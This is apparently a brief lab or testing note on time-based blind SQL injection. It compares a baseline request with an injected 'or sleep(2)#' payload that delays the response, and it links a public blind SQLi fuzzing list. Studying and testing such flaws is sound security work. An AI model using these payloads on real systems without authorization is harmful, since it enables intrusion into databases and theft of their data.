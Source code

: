 # SQL Injection (Blind)

Payload: `item=1&search=`
Response Time: 5ms

Payload: `item=1 or sleep(2)#&search=`
Response Time: 18000 ms


## References:
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/SQLi/Generic-BlindSQLi.fuzzdb.txt
